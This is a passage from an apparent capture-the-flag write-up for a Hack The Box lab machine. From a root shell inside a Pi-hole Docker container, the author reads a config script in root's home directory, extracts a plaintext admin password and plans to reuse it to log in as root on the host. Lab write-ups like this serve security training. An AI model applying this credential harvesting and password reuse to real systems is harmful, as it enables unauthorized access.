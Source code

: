 ```bash
root@pihole:/var/www/html/admin/scripts/pi-hole/php# whoami
whoami
root
```

### Pi-hole Docker as root
Even though we are root, this is not the actual host. So we need to enumerate for leverage.

#### Getting password from pi-hole config in home
At the home directory of root there is a config file containing a password.
<br />
```bash
root@pihole:/var/www/html/admin/scripts/pi-hole/php# cd
cd
root@pihole:~# ls -la
ls -la
total 132
drwxrwxr-x 1 root root   4096 Apr  5  2020 .
drwxr-xr-x 1 root root   4096 Jul 30 05:13 ..
lrwxrwxrwx 1 root root      9 Apr  4  2020 .bash_history -> /dev/null
-rw-r--r-- 1 root root    570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root    148 Aug 17  2015 .profile
-rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
-rw-r--r-- 1 root root    485 Apr  6  2020 pihole_config.sh
root@pihole:~# cat pihole_config.sh
cat pihole_config.sh
#!/bin/bash

# Add domains to whitelist
/usr/local/bin/pihole -w unbalanced.htb
/usr/local/bin/pihole -w rebalanced.htb

# Set temperature unit to Celsius
/usr/local/bin/pihole -a -c

# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

# Set privacy level
/usr/local/bin/pihole -a -l 4

# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
root@pihole:~#
```
<br />The password is _**bUbBl3gUm$43v3Ry0n3!**_. Let's try using it to login as root against the host machine.

